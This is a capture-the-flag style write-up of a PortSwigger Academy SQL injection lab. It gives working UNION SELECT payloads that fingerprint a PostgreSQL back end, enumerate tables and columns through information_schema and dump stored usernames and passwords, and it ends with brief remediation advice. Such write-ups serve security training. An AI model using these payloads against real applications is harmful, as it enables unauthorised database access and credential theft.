

# SQL injection attack, listing the database contents on non-Oracle databases

---

## Executive Summary

In the PortSwigger Web Security Academy lab *“SQL injection attack: listing the database contents on non-Oracle databases”*, we demonstrated how an attacker can enumerate **all database tables, their columns, and sensitive user credentials** using a series of `UNION SELECT` queries against `information_schema`.
Because the application dynamically concatenates user-supplied text into its SQL queries without sanitisation, we pivoted from a simple injection test to full schema enumeration and credential harvesting.

---

## Why This Matters to You

* **Full data breach:** Once table names and column names are known, dumping sensitive data (usernames, passwords, payment details) becomes trivial.
* **Persistence risk:** Knowledge of schema details makes backdoor creation easier for attackers.
* **Compliance violations:** Any unauthorised access to stored credentials can trigger GDPR, CCPA, or similar regulatory reporting requirements.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                                                                                   | Intended SQL generated by the app                                                                                                              | What actually happens & why                                          |
| - | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability** and identified DB type as **PostgreSQL** with: `' UNION SELECT NULL,version()--`                                                  | `SELECT * FROM someTable WHERE category='X' UNION SELECT NULL, version()--'`                                                                   | Version string confirms PostgreSQL back-end.                         |
| 2 | **Enumerated tables** with: `' UNION SELECT table_name,table_schema FROM information_schema.tables--`                                                         | `SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, table_schema FROM information_schema.tables--'`                           | Listed all table names/schemas, including one called `users_kcstmf`. |
| 3 | **Enumerated columns** for the `users_kcstmf` table with: `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_kcstmf'--` | `SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_kcstmf'--'` | Revealed columns `username_spivdg` and `password_dfxmeh`.            |
| 4 | **Dumped credentials** with: `' UNION SELECT username_spivdg,password_dfxmeh FROM users_kcstmf--`                                                             | `SELECT * FROM someTable WHERE category='X' UNION SELECT username_spivdg, password_dfxmeh FROM users_kcstmf--'`                                | Retrieved all stored usernames and passwords.                        |
| 5 | **Logged in** using harvested credentials.                                                                                                                       | —                                                                                                                                              | Administrative access granted, lab solved.                           |

---

## Observable Output

| Test / Payload                                                                                      | Visible result                        | What it proved                              |
| --------------------------------------------------------------------------------------------------- | ------------------------------------- | ------------------------------------------- |
| `' UNION SELECT NULL,version()--`                                                                   | `PostgreSQL 14.x ...`                 | Backend database type & version confirmed.  |
| `' UNION SELECT table_name,table_schema FROM information_schema.tables--`                           | Long list of table names              | Schema enumeration works.                   |
| `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_kcstmf'--` | `username_spivdg` / `password_dfxmeh` | Sensitive column names identified.          |
| `' UNION SELECT username_spivdg,password_dfxmeh FROM users_kcstmf--`                                | List of usernames and passwords       | **Complete credential disclosure** achieved |

---

## Conclusion

By leveraging basic UNION-based SQL injection against `information_schema`, we escalated from product-list manipulation to a **full database breach**, including credential theft. The fix requires moving away from string-concatenated SQL, enforcing least-privilege DB roles, and hardening password storage practices.

